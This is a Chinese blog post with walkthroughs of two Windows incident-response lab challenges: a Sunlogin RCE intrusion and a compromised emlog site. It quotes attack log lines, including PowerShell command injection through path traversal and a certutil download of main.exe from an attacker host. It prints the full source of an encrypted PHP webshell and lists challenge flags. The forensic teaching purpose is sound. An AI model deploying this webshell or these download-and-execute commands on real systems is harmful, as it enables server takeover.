---
title: "玄机第四章windows实战"
date: 2024-12-02T20:00:21+08:00
summary: "玄机第四章windows实战"
url: "/posts/玄机第4章windows实战/"
categories:
  - "应急响应"
tags:
  - "玄机第四章windows实战"
draft: false
---

# 0x01前言

好久没做玄机了，终于到Windows的版块了，马上来学习一下，借鉴了师傅的文章

https://blog.csdn.net/administratorlws/article/details/140358847?ops_request_misc=%257B%2522request%255Fid%2522%253A%25221236473242d15e44a20a457eac83664d%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=1236473242d15e44a20a457eac83664d&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-4-140358847-null-null.nonecase&utm_term=%E7%AC%AC%E5%9B%9B%E7%AB%A0&spm=1018.2226.3001.4450

# 0x02正文

## 第四章 windows实战-向日葵

先介绍一下向日葵

### 向日葵远程连接软件

向日葵远程连接软件是一款流行的远程桌面软件，主要用于远程控制和远程协助。它允许用户通过互联网远程访问和控制其他计算机和设备，广泛应用于个人用户、企业技术支持、教育等场景。

#### 向日葵的主要功能

- 远程桌面控制：


允许用户通过网络远程控制另一台计算机的桌面，就像操作本地计算机一样。

支持多屏显示、屏幕录像、键盘鼠标控制等功能。

- 远程文件管理：

用户可以在远程计算机之间传输文件，进行文件的上传、下载、删除、重命名等操作。

提供文件夹同步功能，实现两台设备之间的文件自动同步。

- 远程摄像头监控：

可以通过远程查看连接到远程计算机的摄像头，实现远程监控功能。

支持实时视频传输，查看监控画面。

- 远程开关机：

支持通过网络远程启动或关闭计算机，方便进行远程管理。

可以设定定时开关机任务，实现自动化管理。

- 远程协助：

用户可以通过向日葵软件向他人提供远程技术支持和帮助。

支持多人协作，共享屏幕，进行在线会议和培训。

- 跨平台支持：

向日葵支持多种操作系统，包括Windows、macOS、Linux、Android和iOS。
用户可以通过不同设备进行远程连接和管理。

### 连接靶机

我们先连接我们的靶机，使用本地的远程桌面连接

win+cmd 并键入**mstsc**



### 问题1:通过本地 PC RDP到服务器并且找到黑客首次攻击成功的时间为多少

解题思路:

题目让我们提交黑客首次攻击成功的时间，那这题既然主要的是“向日葵”，那肯定就是查日志分析了

一开始我是直接看的事件查看器



但是没发现什么可用的信息，然后我们去看一下向日葵文件的所在文件位置，从里面看看是否有日志文件可用分析



有log文件，跟进分析一下



因为我们要找的是黑客首次攻击成功的时间，所以我们从最早的文件打开看看

那打开日志，我们就主要分析以下特征，从而缩小范围进行查找；

特征

- 异常登录记录：


登录记录从未知或可疑IP地址。

非常规时间段内的登录行为。

- 频繁连接请求：

短时间内的多次连接尝试，尤其是从相同IP地址。

- 失败登录尝试：

多次失败登录尝试，可能表示暴力破解尝试。

- 新设备注册：

是否有新设备绑定到你的向日葵账户。

- 高频操作记录：

短时间内的高频率操作记录。
然后翻日志发现了这个



1.这个时间段里有进行过多次的连接尝试，从同一IP地址（192.168.31.45）到目标IP地址（192.168.31.114）

```php
2024-03-21 19:54:46.097	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:63976-->192.168.31.114:49724
2024-03-21 19:54:53.054	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:57945-->192.168.31.114:49724
2024-03-21 19:54:56.066	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:58485-->192.168.31.114:49724
```

这里的日志记录，可以看出确实是黑客的在进行攻击尝试。这些日志显示了多个HTTP连接尝试，每个连接尝试都有不同的路径和参数，这些路径和参数是漏洞利用或恶意扫描。

2.**可疑的HTTP路径和参数**

每个连接尝试的路径和参数都显示了对特定资源的访问，这些资源路径和参数是已知漏洞利用的路径。例如：

- /pages/createpage-entervariables.action?SpaceKey=x:


1.描述：这个请求看起来像是针对某个网页应用框架的攻击尝试，可能是针对 Confluence 的命令注入。

2.参数：

SpaceKey=x：攻击者尝试通过设置某个参数来利用该漏洞。

3.目标：通过设置不安全的参数值，可能会导致服务器执行恶意代码或命令。

- /CFIDE/administrator/enter.cfm?locale=…/…/…/…/…/…/…/lib/password.properties%00en:

1.描述：这是一个目录遍历攻击，它试图通过操纵路径来访问敏感文件。

2.参数：

locale=../../../../../../../lib/password.properties%00en：攻击者使用了目录遍历 (../../../../../../../) 和空字符 (%00) 来访问本不应公开的 password.properties 文件。

3.目标：读取或修改配置文件，可能包含敏感信息如密码。

- /mailsms/s?func=ADMIN

&dumpConfig=/:

1.描述：这个请求试图利用一个功能（可能是一个管理功能）来获取系统配置信息。

2.参数：

func=ADMIN:appState&dumpConfig=/：这个参数组合看起来像是试图调用一个管理命令 (ADMIN:appState) 并将配置信息导出。

3.目标：获取系统配置和状态信息，可能包括敏感数据。

- /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd

这里的话就是尝试进行rce的操作，试图使用cat查看我们的本地文件

所以这几个url分析下来就是黑客在尝试利用**CNVD-2022-10207：向日葵远程控制软件 RCE 漏洞。**

那什么是**CNVD-2022-10207：向日葵远程控制软件 RCE 漏洞**呢?

- 漏洞背景


CNVD-2022-10207 是一个被发现的安全漏洞，允许未经授权的攻击者远程执行任意命令。

- 漏洞成因


该漏洞的成因通常涉及以下几个方面：

1. 输入验证缺陷：软件在处理用户输入时，未能正确验证和过滤特定的输入数据。

2. 路径处理不当：软件在处理文件路径时，可能存在目录遍历漏洞，允许攻击者访问任意文件。
3. 功能滥用：某些管理功能未受到足够的保护，可以被远程调用，执行敏感操作。

- 攻击过程

1. 发送特制请求：攻击者构造特定的 HTTP 请求，利用软件的输入验证缺陷或路径处理不当。

2. 远程执行命令：通过特制请求，攻击者可以执行任意系统命令或脚本。
3. 获取权限：成功利用漏洞后，攻击者可能获得系统的控制权，执行进一步的恶意操作。

- 影响

1. 远程命令执行：攻击者可以在目标系统上执行任意命令，导致系统被完全控制。
2. 数据泄露：攻击者可以访问和窃取系统中的敏感数据。
3. 进一步渗透：攻击者可以利用被控制的系统作为跳板，攻击网络内的其他设备。

所以从这里看的话其实只是黑客的一次次尝试利用漏洞进行攻击，但是并没有攻击成功，所以我们还需要继续分析日志文件

终于在最底下发现了一些奇怪的地方



简单分析一下这里

首先是

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+whoami
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+pwd
```

这里的命令表明黑客在通过路径遍历去访问并执行powershell命令，这些命令的目的是验证是否能够成功执行系统命令。`whoami`命令用于查看当前执行命令的用户，`pwd`命令用于查看当前工作目录。

日志中多次记录了从攻击者IP（192.168.31.45）到目标IP（192.168.31.114）的HTTP连接，表明攻击者正在反复尝试连接和执行命令。

所以这里的话可用想到应该是黑客攻击成功了然后在进行测试执行命令是否正常，以确认权限级别和工作目录

**日志记录表明，攻击者在2024年3月26日10:16:25通过路径遍历和命令注入成功执行了PowerShell命令。**

### 问题2:通过本地 PC RDP到服务器并且找到黑客攻击的 IP 为多少

这个的话我们刚刚一直都可以看到日志文件中有一个经常出现的ip地址，就可能是黑客攻击的ip，也就是192.168.31.45

### 问题3:通过本地 PC RDP到服务器并且找到黑客托管恶意程序 IP 为

这个的话是需要找到托管恶意程序的ip，我们还是需要继续分析日志文件，然后往下翻又看到了别的




这里的话我们也分析一下

```php
2024-03-26 10:31:07.538	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:49328-->192.168.31.114:49724
#从IP 192.168.31.45 发起了到IP 192.168.31.114 的新连接
2024-03-26 10:31:07.538	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49328, path: /cgi-bin/rpc?action=verify-haras, version: HTTP/1.1
#尝试访问路径 /cgi-bin/rpc?action=verify-haras
2024-03-26 10:31:07.538	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49328,/cgi-bin/rpc?action=verify-haras, plugin:cgi-bin, session:
2024-03-26 10:31:07.576	- Info  -	[service][TcpAcceptor] new acceptor 192.168.31.45:49329-->192.168.31.114:49724
2024-03-26 10:31:07.576	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329, path: /check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, version: HTTP/1.1
#访问的路径为 /check?cmd=ping...，其中包含了一个可能的命令注入尝试，且连接尝试执行 powershell.exe 和 certutil 的组合命令
2024-03-26 10:31:07.576	- Info  -	[Acceptor][HTTP] new RC HTTP connection 192.168.31.45:49329,/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+certutil+-urlcache+-split+-f+http%3A%2F%2F192.168.31.249%2Fmain.exe, plugin:check, session:sobGzXzWBfSlSbdqnmkUbJMLEjhssRx1
```

这里的话关键点在于

- 恶意行为：


1. 路径遍历：/check?cmd=ping.... 是一种路径遍历尝试，试图访问系统中的powershell.exe。

2. 命令执行：使用 certutil 工具下载文件 main.exe。路径是 http://192.168.31.249/main.exe，这里的话可能是从外部服务器下载恶意文件，可能指向一个可能托管恶意程序的外部服务器。

这些日志条目显示了黑客尝试利用路径遍历和命令注入漏洞，通过 `certutil` 从外部服务器（192.168.31.249）下载并执行恶意程序 `main.exe`。这表明黑客的攻击成功了，且试图在目标系统上下载并运行恶意软件。

所以这个192.168.31.249可能就是黑客用于下载恶意程序的ip，我们直接交flag就行

### 问题4:找到黑客解密 DEC 文件

题目让我们提交黑客解密的DEC文件的md5值，那我们先了解一下什么样的是DEC文件

DEC文件：DEC文件通常是与某些特定软件或硬件相关的数据文件，可能包含特定格式的数据。 .dec 文件**定义了公开的数据和接口，供其他模块使用**。

然后我们先在日志文件里搜索一下DEC文件看看有没有什么收获



好吧什么都没找到，那就老老实实的分析日志文件吧



在这里发现了一个qq.txt文件，前面是647224830

QQ搜索发现是玄机的官方群，但是一群满了，在二群的群文件里面找到了一个DEC文件



下载下来是一个DEC.pem，这个应该就是我们想要的文件名，拿去md5加密然后交flag就可以了

### 问题5:通过本地 PC RDP到服务器并且解密黑客勒索软件,将桌面加密文件中关键信息作为 FLAG 提交;


桌面上可以看到有两个文件，分别用记事本打开



一开始并没有看出来什么，但是想到刚刚的dec文件，发现是RSA解密，那就直接用在线解密去做就行



解密结果



然后是AES解密



就可以拿到flag了

## 第四章 windows实战-emlog

参考师傅的文章:

https://blog.csdn.net/administratorlws/article/details/140125250?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522177e608dfc6e06a4223b92d0810c0900%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=177e608dfc6e06a4223b92d0810c0900&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-140125250-null-null.nonecase&utm_term=%E7%AC%AC%E5%9B%9B%E7%AB%A0&spm=1018.2226.3001.4450

首先我们要了解什么是emlog

### 什么是emlog？

Emlog 是一个开源的博客系统，采用 PHP 和 MySQL 开发，旨在帮助用户轻松创建和管理博客，Emlog 的设计理念是简洁、高效和轻量，适合个人用户和小型网站。

### emlog的特点

1. **简洁易用**

Emlog 的用户界面设计简洁，易于理解和使用，即使对于初学者也能快速上手。用户可以通过后台管理面板轻松发布和管理文章。

2. **多种主题和插件**

Emlog 允许用户自定义自己的博客外观和功能。用户可以选择不同的主题以及安装各种插件，以增强博客的功能性和美观性。

3. **SEO 友好**

Emlog 提供了一些内置的 SEO 功能，帮助用户优化网站，以提高搜索引擎排名。这些功能包括自定义 URL、元标签设置等。

4. **多用户支持**

Emlog 支持多用户管理，允许多个用户在同一个博客上发布文章，并可以设置不同的权限和角色。

5. **灵活的文章管理**

用户可以方便地管理文章，包括分类、标签、评论等。Emlog 还支持草稿功能，用户可以在发布前保存未完成的文章。

6. **数据备份与恢复**

Emlog 提供了数据备份和恢复的功能，用户可以定期备份自己的博客数据，防止数据丢失。

7. **社区支持**

作为一个开源项目，Emlog 拥有活跃的开发者社区和用户群体，用户可以在社区论坛寻求帮助、分享经验和获取资源。

### 应用场景

- 个人博客


Emlog 适合个人用户创建和管理博客，记录日常生活和思想。

- 小型网站

由于其轻量级和高效性，Emlog 也适合用于创建小型企业网站或作品展示网站。

- 自媒体平台

自媒体从业者可以使用 Emlog 搭建个人博客平台，发布和管理内容，建立个人品牌。

由于其低门槛和灵活性，适合不具备深厚技术背景的用户使用。

### 连接靶机

前面讲过了，步骤是一样的，不会的可以返回去看一下

### 问题1:通过本地 PC RDP到服务器并且找到黑客植入 shell,,将黑客植入 shell 的密码提交

简单来说就是找shell嘛，前面的章节里面也有关于查杀webshell的方法，这里的话我们还是先找一下切入点

简单扫一眼，桌面上发现“PHPStudy”，PHPStudy是一款集成了 PHP、Apache、MySQL、Nginx 等常用 Web 开发环境的本地集成开发环境工具。简单来说就是用来搭建网站的，既然是搭建网站的，那黑客肯定会从这边下手

那我们先打开phpstudy的文件所在文件夹



不过这个目录的话不算是phpstudy的目录，我们返回上一级



这里可以看到有两个www的文件夹，这里的www文件夹代表着什么呢？在 PHPStudy Pro 中，WWW 目录通常是存放 Web 项目的根目录。这个目录是 Apache 或 Nginx 等 Web 服务器的默认站点目录，所有的 Web 项目文件和代码都会放在这个目录中。

**总之，WWW 目录是 PHPStudy Pro 中存放所有 Web 项目文件的地方，是开发和测试 Web 应用的核心目录。**

这里的话手动排查比较麻烦，我们直接上科技，用D盾进行查杀webshell

我们把里面的WWW文件拖出来放到我们本地桌面，接着使用D盾进行扫描WWW目录；

一开始没扫出来以为是我文件复制出问题了，后来发现是电脑的实时保护没开，系统自动把木马文件杀了




直接就看到目录了，我们跟着目录进去看一下这个shell.php文件



然后就可以看到shell的连接密码，应该就是我们题目中想要的东西了

但是我们还是来分析一下这个shell文件

**这是一个典型的后门程序（backdoor shell），包含了一些隐蔽和加密的特性。**

```php
<?php
@error_reporting(0);#关闭错误报告
session_start();#启动新会话
    $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond
	$_SESSION['k']=$key;#将密钥存储在会话变量中。
	session_write_close();#写入会话数据并关闭会话存储
	$post=file_get_contents("php://input");#从请求的原始输入中读取数据，通常用于POST请求。
	if(!extension_loaded('openssl'))#检查是否加载了OpenSSL扩展
	{
		$t="base64_"."decode";
		$post=$t($post."");
		
		for($i=0;$i<strlen($post);$i++) {
    			 $post[$i] = $post[$i]^$key[$i+1&15]; 
    			}
	}
	else
	{
		$post=openssl_decrypt($post, "AES128", $key);
	}#如果没有，则使用基于字符异或的自定义解密方法；如果有，则使用OpenSSL的AES解密。
    $arr=explode('|',$post);#将解密后的数据用 | 分割成一个数组，第一个元素是函数名，第二个元素是参数。
    $func=$arr[0];
    $params=$arr[1];
	class C{public function __invoke($p) {eval($p."");}}#这个类定义了一个魔术方法 __invoke，它接受一个参数 $p 并执行 eval($p."");。
    @call_user_func(new C(),$params);# 调用类 C 的实例，并将参数 $params 传递给它
?>
```

这段代码实际上是一个加密的后门程序。它通过接收加密的数据，然后解密并执行其中的 PHP 代码。这使得攻击者可以通过发送特定的加密请求来执行任意的 PHP 代码，从而完全控制服务器。

主要危险点包括：

- 使用 eval 函数执行任意 PHP 代码。

- 通过加密隐藏恶意代码，难以被普通的扫描工具检测到。
- 利用会话和加密机制，使得攻击通信难以被识别和拦截。

这种后门程序常用于网络攻击中的持久访问，通过隐蔽手段保持对受感染服务器的控制。

### 问题2:通过本地 PC RDP到服务器并且分析黑客攻击成功的 IP 为多少,将黑客 IP 作为 FLAG 提交;

又回到分析ip了，那就又得去分析我们的日志文件了，那我们找一下phpstudy存放日志的文件目录



在Extensions目录下，有Apache和Nginx的日志文件，但是我们这里的话是分析Apache日志文件哈，因为Nginx日志文件的大小都是0，也就是空的，所以我们就没必要看了



然后我们来看Apache的日志文件，在logs路径下



可以看到有很多文件都是空的，且有一个access.log文件的大小是很大的，初步确定是在这个文件里面,然后我们打开进行日志分析

因为之前我们确定了植入shell的文件叫shell.php，所以我直接搜索shell.php文件有没有被利用的痕迹



确实存在哈，那我们跟进分析

```plain
192.168.126.1 - - [26/Feb/2024:22:46:23 +0800] "GET /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:46:35 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:46:35 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:46:35 +0800] "GET /content/plugins/tips/shell.php?888666=619 HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:47:54 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:47:54 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:48:47 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -

192.168.126.1 - - [26/Feb/2024:22:49:58 +0800] "GET /content/plugins/tips/shell.php?nzQbavYgN6ODoxF1=G65ASv8y3UvkREqS1BhtN8ZQ9rBOTuYm&YD2ZXadPSvHEOYc2=Mtp8qcxNdDLrUSDD7WH6NZB9LGuhPYLT&888666=7Sn1K3PXNdf2Fh0LymWfQDymalxp4ty1&Y0fAQLYotO6P9ZRM=dj3DhH6k3adKnymgE07L8YUSXjdkX4vx&pV8lXaCzdJhmssdK=V4VdNXaxzvxXLdkEB9DTv7Bqbg3qw92J HTTP/1.1" 200 -
24:22:50:33 +0800] "GET /content/plugins/tips/shell.php?AMKhtlTTEMKCZN5T=VbN2ItDmt0cZsJ8nFYFjPG8JpJHhNyqg&NQxMQd88ByKdwKQF=5vlwUtyYSChArIsZ3ajO6Jxzx7vRJuHl&888666=XSXMdgEcy5mYZOn9L4RoWLbwYo9nTxgr&htdk7suOo2SdXKmV=10I1HotZgl6Y50OMPTZRfKOMV1oVbQky&pp4TqWAlQHyYQdb1=rFVrQrbQT3VMlwPZxrnKVOekDCUcVeiX HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:51:58 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:51:58 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:51:58 +0800] "GET /content/plugins/tips/shell.php?888666=395 HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:52:17 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:52:17 +0800] "POST /content/plugins/tips/shell.php HTTP/1.1" 200 -
192.168.126.1 - - [26/Feb/2024:22:52:17 +0800] "GET /content/plugins/tips/shell.php?888666=331 HTTP/1.1" 200 -
```

这里不难看出，黑客对植入的shell.php有过多次的请求访问，基于上面对shell.php的分析，这说明黑客可能在利用这个shell去进行远程代码执行或文件操作，这是一种典型的webshell攻击，所以这里的话应是黑客攻击成功了对shell进行利用并对我们的靶机进行了一定的攻击操作，那前面的ip就是黑客的ip

### 问题3：通过本地 PC RDP到服务器并且分析黑客的隐藏账户名称,将黑客隐藏账户名称作为 FLAG 提交;

这里让我们去找黑客的隐藏账户名称，既然说用户名称了，那肯定就是查靶机的用户组了呗（window应急的基础操作），“本地用户和组”是在“计算机管理”里面，想找到“计算机管理”其实也简单，直接在搜索栏搜索即可；



或者我们在c盘的用户里面也可以进行查找



**当然，也可以直接使用“net user”进行查询计算机的所有用户，但是这里好像隐藏了，并没有发现；**



flag{hacker138}

### 问题4:通过本地 PC RDP到服务器并且分析黑客的挖矿程序的矿池域名,将黑客挖矿程序的矿池域名称作为(仅域名)FLAG 提交;

既然我们知道了黑客的隐藏账户，那我们跟进分析





然后在桌面找到了一个kuang的应用程序，**那如何找到矿的域池名呢？**

既然现在已经知道挖矿程序了（kuang.exe），那我们直接使用脚本工具“pyinstxtractor.py”把kuang.exe转换成pyc文件，接着随便找一个pyc在线反编译即可发现池域名

我们将kuang程序放到我们的**脚本工具“pyinstxtractor”目录下；**

****

然后在当前目录下的终端去运行脚本

```
python pyinstxtractor.py Kuang.exe
```



然后我们进入这个文件，找到我们想要的pyc文件



然后放到在线pyc反编译的网站进行反编译

https://tool.lu/pyc/



然后就可以看到我们想要的域名

所以最后

```
flag{wakuang.zhigongshanfang.top}
```

## 第四章-windows日志分析
